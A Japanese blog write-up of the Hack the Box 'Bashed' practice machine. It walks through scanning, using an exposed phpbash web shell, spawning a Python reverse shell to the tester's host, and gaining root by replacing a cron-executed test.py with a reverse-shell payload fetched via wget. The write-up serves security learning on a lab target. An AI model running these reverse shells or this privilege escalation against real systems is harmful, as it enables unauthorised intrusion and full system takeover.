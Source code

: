 ```yaml
---
title: "【Hack the Box write-up】Bashed"
date:  "2020-03-15T15:04:05+07:00"
author:
  - "さんぽし"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```

#はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)
#cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

#machine について
難易度は easy です。


#nmap

```
kali@kali:~$ nmap -p- -sC -sV 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-14 20:53 EDT
Nmap scan report for 10.10.10.68
Host is up (0.17s latency).
Not shown: 65505 closed ports, 29 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4542.47 seconds

```

#80 番ポートを開いてみる
![スクリーンショット 2020-03-15 16.37.49.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/ab2814c3-17c9-df5d-cc50-5fe7f03f99ec.png)
![スクリーンショット 2020-03-15 16.38.01.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f032ba69-c5ec-03a3-583f-16f396d4ec9e.png)

phpbash について説明した記事が出てきます。

#dirbuster

![スクリーンショット 2020-03-15 16.38.56.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/70945b83-cc45-d99f-45f3-641eea71d2eb.png)
`/dev`に `phpbash.php` が見つかります。

#`phpbash.php`を開く
![スクリーンショット 2020-03-15 16.40.23.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/d55101b4-8931-e12e-86f2-435f751dca78.png)
このようなターミナルのような画面が現れます。

![スクリーンショット 2020-03-15 16.42.36.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/7e7e3071-d7b1-54f4-100c-63d6a2ee364d.png)

user.txt が取れました。

#とりま `sudo -l` する

![スクリーンショット 2020-03-15 16.43.48.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/a2a2b561-cc6d-f867-cba4-4083c68f6d1e.png)

scriptmanager という user に切り替えられることがわかります。

#リバースシェルをとる

なぜか phpbash で scriptmanager の bash に切り替えられなかったので（←詰まったポイント 1)phpbash から一旦普通のリバースシェルに切り替えます。

ホスト側で以下のように待ち構えて

```
$ nc -lvnp 4242
```
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)に乗っている python のコードをそのまま拝借して使用します。
IPv4 ではなぜか失敗します（←詰まったポイント 2
他の writeup をみてみると IPv4 じゃなくて IPv6 なら成功するよってことで IPv6 を使用すると、

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

以下のようにリバースシェルが取れました。

```
kali@kali:~$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.68] 39742
/bin/sh: 0: can't access tty; job control turned off
$ 
```

そしてリバースシェルの方で scriptmanager に切り替えようとしてみると

```
$ sudo -u scriptmanager bash
whoami
scriptmanager
```
成功しました。

#ディレクトリ探索
scriptmanager という名前なので script などの名前のついたファイルを中心に探してみると、ルートディレクトリに `/script` が存在し、案の定 scriptmanager が所有していることになっています。

```
cd /
ls -la
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot
drwxr-xr-x  19 root          root           4240 Mar 14 17:55 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 124 root          root              0 Mar 14 17:55 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            500 Mar 14 17:55 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Mar 15 00:33 sys
drwxrwxrwt  10 root          root           4096 Mar 15 00:55 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

中をみてみます。

```
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Mar 15 00:56 test.txt
```
scriptmanager の所有する `test.py` 、root が所有する `test.txt` が存在します。
中を覗くと

```
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

cat test.txt
testing 123!
```
となっています。

ここでもここからどうすれば？？という感じだったのですが、注目すべきは `test.txt` の**更新時間**でした。

このファイルだけ明らかに最近更新されており、`ls -la`でみるたびに更新されています。

- 頻繁に更新されていることから自動で `test.py` が実行されるようになっていると予想される
- `test.txt`は root の所有なので `test.py` の実行は root が行なっていると考えられる
- そして `test.py` は scriptmanager の所有なので編集できる

ここまで言えば何をすればいいか明確ですね（←自分では分からなくて[writeup](https://ethicalhacking.sh/posts/hack-the-box-bashed-writeup/)みた人）

#test.py を編集する
正確には編集したものをホストから持ってきます。

```test.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

見にくいですね。これは先ほどの[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)に乗っている python の IPv6 のコードをそのまま持ってきたものです（IP アドレスとかは変えてます）

ホスト側で SimpleHTTPServer を使って machine 側で取得します。

```
kali@kali:~$ python -m SimpleHTTPServer
```

```
rm test.py
wget http://10.10.14.3:8000/test.py
--2020-03-15 01:09:23--  http://10.10.14.3:8000/test.py
Connecting to 10.10.14.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 215 [text/plain]
Saving to: 'test.py'

     0K                                                       100% 24.3M=0s

2020-03-15 01:09:24 (24.3 MB/s) - 'test.py' saved [215/215]
```

これで既存の test.py を先ほど編集した test.py に切り替えられました。
ホスト側で root のリバースシェルを待ち受けます

```
kali@kali:~$ nc -lnvp 4444
listening on [any] 4444 ...
```
>自動で `test.py` が実行されるようになっていると予想される

なのでしばらく待ってみると

```
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.68] 37178
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
root が取れました！

#終わりに
今回は `ls -la` で所有者の違いと更新日時から root が定期的に `test.py` を実行しているということを見破るという部分が自分では見破れませんでした…
精進します。。

